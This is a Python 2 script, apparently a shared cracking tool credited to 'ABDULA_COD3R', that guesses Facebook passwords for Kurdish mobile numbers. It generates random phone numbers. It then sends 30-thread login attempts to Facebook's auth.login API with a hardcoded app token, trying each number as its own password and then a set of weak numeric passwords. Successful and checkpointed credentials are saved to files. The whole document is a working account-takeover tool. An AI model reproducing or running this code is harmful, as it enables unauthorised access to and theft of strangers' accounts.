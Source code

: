 k# ABDULA_COD3Rfb
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(100000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 nmbr.py')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit'
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = logo ="""
\033[1;91m--------------------------------------------
\033[1;91m
\033[1;92m
\033[1;93m
\033[1;94m    ABDULA  COD3R
\033[1;95m
\033[1;96m
\033[1;97m
\033[1;98m
\033[1;98mO--------------------------------------------
\033[1;98mSnapchat/abdula5508
\033[1;98mTelegram/ABDULA_COD3R
--------------------------------------------------------
"""

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print 42 * '\x1b[1;91m='
    print '\x1b[1;94m[1]\x1b[1;92m KURDISTAN\x1b[1;91m\xe2\x87\x8b\x1b[1;94m[Up]\x1b[1;93m Cracker Number '
    print 42 * '\x1b[1;91m='
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n\x1b[1;91mSelect Option \x1b[1;93m>>>\x1b[1;95m  ')
    if bch == '':
        print '[!] Fill in correctly'
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print '\x1b[1;92m0770, 0750, 0773, 0751'
        try:
            c = raw_input(' Zhmarayak Dane  : ')
            k = ''
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
    elif bch == '0':
        exb()
    else:
        print '[!] Fill Ba Kalk Naya'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Hamw Raqamakan: ' + xxx)
    time.sleep(0.1)
    psb('\x1b[1;91m[\xe2\x9c\x93]\x1b[1;94m Tkaya Chawarwan Ba ...')
    time.sleep(0.1)
    psb('[!] Bo Wastan Dni Toolaka CTRL+Z')
    time.sleep(0.5)
    print 42 * '\x1b[1;91m='

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234512345'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
            else:
                pass5 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass5 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass5 + '\n')
                okb.close()
                oks.append(c + user + pass5)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass5 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass5 + '\n')
                cps.close()
                cpb.append(c + user + pass5)
            else:
                pass6 = '123456123456'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass6 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass6 + '\n')
                okb.close()
                oks.append(c + user + pass6)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass6 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass6 + '\n')
                cps.close()
                cpb.append(c + user + pass6)
            else:
                pass7 = '11223344'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass7 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m[SUCCESSFULLL]\x1b[1;91m ' + k + c + user + ' >>> ' + pass7 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass7 + '\n')
                okb.close()
                oks.append(c + user + pass7)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;92m[CHECKPOINT]\x1b[1;92m ' + k + c + user + ' >>> ' + pass7 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass7 + '\n')
                cps.close()
                cpb.append(c + user + pass7)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print 42 * '\x1b[1;91m='
    print '[\xe2\x9c\x93]\x1b[1;93m Process Has Been Completed ....'
    print '[\xe2\x9c\x93]\x1b[1;92m Total OK/\x1b[1;96mCP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93]\x1b[1;91m CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 .README.md')
if __name__ == '__main__':
    menu()
